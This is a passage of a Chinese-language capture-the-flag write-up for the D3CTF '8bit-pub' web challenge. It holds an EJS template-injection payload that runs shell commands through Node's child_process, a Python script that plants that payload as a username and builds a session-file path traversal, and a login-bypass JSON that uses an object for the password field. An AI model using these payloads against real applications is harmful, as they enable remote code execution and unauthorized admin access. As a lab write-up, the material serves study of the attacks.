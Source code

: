 ```
{"cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"},"username":"<%- global.process.mainModule.require('child_process').execSync('ls') %>","__lastAccess":1615003247565} 
```

然后我写了一个推出json名称的脚本

```
 import requests
from urllib.parse import quote, unquote
import sys

username = "<%- global.process.mainModule.require('child_process').execSync('/readflag') %>"
print(username)
url = 'http://139f61ba6b.8bit-pub.d3ctf.io/user/signup'
print(url)
session = requests.session()
data = {
    "username":username,
    "password":"123",
    "password2":"123"
        }
response = session.post(url=url,data=data)
print(response)

url = 'http://139f61ba6b.8bit-pub.d3ctf.io/user/signin'
print(url)
session = requests.session()
data = {
    "username":username,
    "password":"123",
        }
response = session.post(url=url,data=data)
print(response)
Cookie= dict(session.cookies)
print(Cookie)
cookie = unquote(session.cookies['session'])
print(cookie)
session_id = cookie[cookie.find(':') + 1:cookie.find('.')]
print(f'session id: {session_id}')
session_id = cookie[cookie.find(':') + 1:cookie.find('.')]
print(f'session id: {session_id}')

path = f'../../sessions/{session_id}.json'
print(path) 
```

搞了一宿，发现这么搞需要渲染一下…然而这个题没有任何渲染的点，当场死亡…

{“username”:“admin”,“password”:{“password”:true}}

可以直接进入admin
